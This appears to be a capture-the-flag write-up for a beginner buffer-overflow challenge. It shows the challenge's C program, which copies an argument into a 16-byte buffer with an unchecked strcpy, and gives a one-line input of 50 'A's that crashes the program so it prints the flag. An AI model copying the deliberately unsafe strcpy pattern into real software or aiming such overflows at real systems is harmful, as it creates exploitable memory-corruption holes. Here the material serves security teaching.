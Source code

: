 Buffer overflow 0 - Points: 150
===========

## Description

>Let's start off simple, can you overflow the right buffer in this program to get the flag? You can also find it in /problems/buffer-overflow-0_1_316c391426b9319fbdfb523ee15b37db

## Hint:

> * How can you trigger the flag to print?
> * If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[16];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("Thanks! Received: %s", argv[1]);
  }
  else
    printf("This program takes 1 argument.\n");
  return 0;
}

```

## Useful Information

There is no check of the input length at :
> * strcpy(buf, input);

The function : 
> * void sigsegv_handler(int sig)

will print the flag on stderr when an error occured .

## Exploit


**Making an error by overflowing the buf[16] will _lauch the function_ sigsegv_handler(int sig) which will print the flag on stderr:**

> ./vuln $(python -c 'print "A"*50')        


